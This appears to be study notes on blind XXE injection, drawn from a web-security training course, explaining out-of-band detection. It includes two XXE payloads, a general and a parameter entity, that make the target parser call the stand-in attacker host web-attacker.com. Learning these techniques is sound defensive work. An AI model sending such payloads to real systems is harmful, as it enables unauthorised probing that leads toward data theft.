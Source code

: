 ]


![[Pasted image 20241104221629.png]]


### What is blind XXE?

Blind XXE vulnerabilities arise where the application is vulnerable to XXE injection but does not return the values of any defined external entities within its responses. This means that direct retrieval of server-side files is not possible, and so blind XXE is generally harder to exploit than regular XXE vulnerabilities.

There are two broad ways in which you can find and exploit blind XXE vulnerabilities:

- You can trigger **out-of-band network interactions,** sometimes exfiltrating sensitive data within the interaction data.
- You can trigger XML parsing errors in such a way that the error messages contain sensitive data.
-------------------------------------------------------------------------------
#### Blind XXE detecting using out-of-band techniques:

You can often detect blind XXE using the same technique as for [XXE SSRF attacks](https://portswigger.net/web-security/xxe#exploiting-xxe-to-perform-ssrf-attacks) but triggering the out-of-band network interaction to a system that you control

`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>`

-------------------------------------------------------------------------------------------------------------
#### Blind XXE detecting using out-of-band techniques via XML entities:
blind XXE using out-of-band detection via XML parameter entities as follows:

`<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>`

This XXE payload declares an XML parameter entity called `xxe` and then uses the entity within the DTD. This will cause a DNS lookup and HTTP request to the attacker's domain, verifying that the attack was successful.

-------------------------------------------------------------------------------------------------------------
